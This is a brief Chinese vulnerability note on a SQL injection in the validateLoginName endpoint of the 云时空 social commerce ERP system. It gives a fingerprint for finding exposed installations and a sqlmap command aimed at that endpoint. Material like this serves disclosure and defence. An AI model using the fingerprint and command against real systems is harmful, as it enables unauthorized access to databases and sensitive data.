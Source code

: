 # 

# 云时空 社会化商业ERP系统 validateLoginName SQL注入漏洞

## 漏洞描述

云时空 社会化商业ERP系统存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
云时空 社会化商业ERP系统
```

## 网络测绘

```
title="云时空社会化商业ERP"
```

## 漏洞复现

登录页面

![image-20220525102459840](./images/202205251026873.png)

使用SQLmap验证漏洞

```
sqlmap -u "http://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

![image-20220525103355733](./images/202205251033940.png)
